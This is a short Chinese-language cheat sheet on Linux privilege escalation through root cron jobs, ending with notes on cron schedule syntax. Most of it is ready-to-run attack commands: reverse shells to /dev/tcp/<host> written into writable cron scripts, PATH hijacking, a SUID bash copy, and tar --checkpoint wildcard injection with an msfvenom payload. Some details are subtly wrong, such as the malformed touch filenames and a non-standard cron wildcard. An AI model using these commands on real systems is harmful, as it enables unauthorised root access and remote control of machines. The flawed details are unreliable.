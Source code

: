 ## 文件权限

root权限自动任务脚本可写，写入反弹shell

```bash
cat /etc/crontab
# root /path/file writable
echo 'bash -i >& /dev/tcp/<host>/1234 0>&1' >> /file
```

## PATH环境变量

root权限自动任务存在，路径为相对地址，PATH中存在可写文件夹，在其中编写同名自动任务文件

- 写入反弹shell

```bash
echo '#!/bin/bash' > OnePATH/file
echo 'bash -i >& /dev/tcp/<host>/1234 0>&1' >> OnePATH/file
```

- 写入提权代码

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```bash
/tmp/rootbash -p # -p: priviledged, run as suid
```

## tar命令—checkpoint机制

root权限自动任务脚本存在，脚本中存在tar命令，使用tar命令的—checkpoint机制执行反弹shell。

**原理：**

在 Linux 的 `tar` 命令中，`--checkpoint` 选项用于在读取或写入每 n 条记录时设置检查点。默认情况下，n 的值为 10。检查点允许我们定期执行任意操作。
这些操作包括暂停、显示文本消息以及执行任意外部程序。这些操作是通过 `--checkpoint-action` 选项定义的。

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<host> LPORT=<port> -f elf -o shell.elf
# /path/to/rshell = path of running tar cmd
touch /path/to/rshell--checkpoint=1
touch /path/to/rshell--checkpoint-action=exec=shell.elf
```

---

## 自动任务时间中的通配符

格式

```bash
m h dom mon dow
```

在自动任务中，通配符用于表示一组值。以下是一些常见的通配符及其含义：

- *：表示任何可能的值。例如，在 cron 表达式中，如果在“小时”字段中使用 *，则表示“每个小时”。
- ?：表示不指定值。这在某些字段（如 cron 表达式的“日”和“周”字段）中很有用，当你想忽略这个字段时，可以使用 ?。
- -：表示一个范围。例如，在 cron 表达式中，1-5 表示“从 1 到 5”。
- ,：用于指定多个值。例如，在 cron 表达式中，1,3,5 表示“1、3 和 5”。
- /：用于指定间隔值。例如，在 cron 表达式中，*/5 表示“每 5 个单位”。